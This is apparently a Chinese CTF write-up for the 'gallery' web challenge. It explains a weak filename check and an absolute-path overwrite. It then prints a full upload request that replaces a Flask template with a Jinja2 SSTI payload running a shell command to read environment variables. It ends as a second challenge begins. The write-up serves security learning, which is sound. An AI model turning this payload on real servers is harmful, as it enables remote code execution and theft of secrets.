 [TOC]



# 2025H3CTFwriteup

## web

### 🎨 gallery

查看源代码，发现`allowed_file`函数存在缺陷

```python
def allowed_file(filename):
    return '.' in filename and filename.count('.') == 1
```

该函数只检查文件名中是否包含一个点，而不验证文件扩展名，导致可以上传任意文件。

这里还有一个问题要注意，文件名有且必须有一个点。

结合`os.path.normpath`和`os.path.join`的处理，可以通过绝对路径覆盖服务器文件：

```py
filename = os.path.normpath(file.filename)
file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
```

使用Burp Suite拦截上传请求，修改文件名和内容：

（这里是先随便上传了一张图片再用burp suite拦截）

```http
POST /upload HTTP/1.1
Host: 82.157.117.253:33459
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="/app/templates/index.html"
Content-Type: image/png

<!DOCTYPE html>
<html>
<body>
    <pre>{{ request.application.__globals__.__builtins__.__import__('os').popen('env | grep -i flag').read() }}</pre>
</body>
</html>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

上传模板后，访问首页触发Jinja2模板渲染，执行系统命令读取环境变量，之后在环境变量中发现flag：H3CTF{c123ffc21d57572c3583c4d7540b1974}

### ⚔️ kill the king

进入页面后是一个点击类游戏，玩家通过按空格键攻击敌人，击败敌人获得经验和金币，逐步提升属性，最终挑战 **King Trost**。
